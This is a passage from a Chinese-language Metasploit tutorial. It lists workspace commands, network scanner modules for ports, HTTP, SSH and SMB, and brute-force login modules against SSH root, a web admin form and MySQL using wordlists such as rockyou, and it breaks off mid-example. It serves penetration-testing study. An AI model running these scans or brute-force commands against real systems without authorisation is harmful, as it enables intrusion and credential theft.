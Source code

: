 **7.1.3 工作區管理**：

```bash
# 查看工作區
workspace

# 創建新工作區
workspace -a target_company

# 切換工作區
workspace target_company

# 刪除工作區
workspace -d old_workspace
```


### 7.2 常用輔助模組

**7.2.1 掃描模組**：

```bash
# 端口掃描
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set PORTS 22,80,443,8080
run

# HTTP標題掃描
use auxiliary/scanner/http/http_header
set RHOSTS 192.168.1.100
run

# SSH版本掃描
use auxiliary/scanner/ssh/ssh_version
set RHOSTS 192.168.1.0/24
run

# SMB掃描
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.0/24
run
```

**7.2.2 暴力破解模組**：

```bash
# SSH暴力破解
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.100
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
set THREADS 10
run

# HTTP表單暴力破解
use auxiliary/scanner/http/http_login
set RHOSTS 192.168.1.100
set TARGETURI /admin/login.php
set USERNAME admin
set PASS_FILE /usr/share/wordlists/common_passwords.txt
run

# MySQL暴力破解
use auxiliary/scanner/mysql/mysql_login
set RHOSTS 192.168.1.100
set USERNAME root
```